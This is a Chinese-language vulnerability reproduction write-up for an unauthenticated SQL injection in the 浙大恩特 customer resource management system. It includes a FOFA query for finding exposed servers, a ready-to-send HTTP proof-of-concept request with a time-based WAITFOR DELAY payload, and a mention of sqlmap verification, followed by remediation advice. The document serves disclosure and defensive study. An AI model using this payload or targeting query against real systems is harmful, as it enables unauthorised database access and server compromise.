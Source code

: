 
# 浙大恩特客户资源管理系统 SQL注入漏洞复现

### 0x01 产品简介

  浙大恩特[客户资源管理](https://so.csdn.net/so/search?q=%E5%AE%A2%E6%88%B7%E8%B5%84%E6%BA%90%E7%AE%A1%E7%90%86&spm=1001.2101.3001.7020 "客户资源管理")系统是一款针对企业[客户资源管理](https://so.csdn.net/so/search?q=%E5%AE%A2%E6%88%B7%E8%B5%84%E6%BA%90%E7%AE%A1%E7%90%86&spm=1001.2101.3001.7020)的软件产品。该系统旨在帮助企业高效地管理和利用客户资源，提升销售和市场营销的效果。

### 0x02 漏洞概述

 浙大恩特客户资源管理系统中T0140\_editAction.entweb接口处存在[SQL注入漏洞](https://so.csdn.net/so/search?q=SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，未经身份认证的攻击者可以利用该漏洞获取系统数据库敏感信息，深入利用可获取服务器权限。

### 0x03 复现环境

FOFA：app="浙大恩特客户资源管理系统"

![](assets/1700442881-b38074d2664ddc683fad4dcf5fe7b25e.png)

### 0x04 漏洞复现

PoC

```cobol
GET /entsoft/T0140_editAction.entweb;.js?method=getdocumentnumFlag&documentnum=1';WAITFOR+DELAY+'0:0:5'-- HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

延时注入

![](assets/1700442881-2d3db935fb42ff51d4880ef54091f1d0.png)

Sqlmap 验证

![](assets/1700442881-3c0b5740c4a0a7502240e0ed96fc6a23.png)

### 0x05 修复建议 

关闭互联网暴露面设置接口访问控制，对用户提交数据信息严格把关，多次筛选过滤  
对用户数据内容进行加密，采用SQL语句预编译和绑定变量
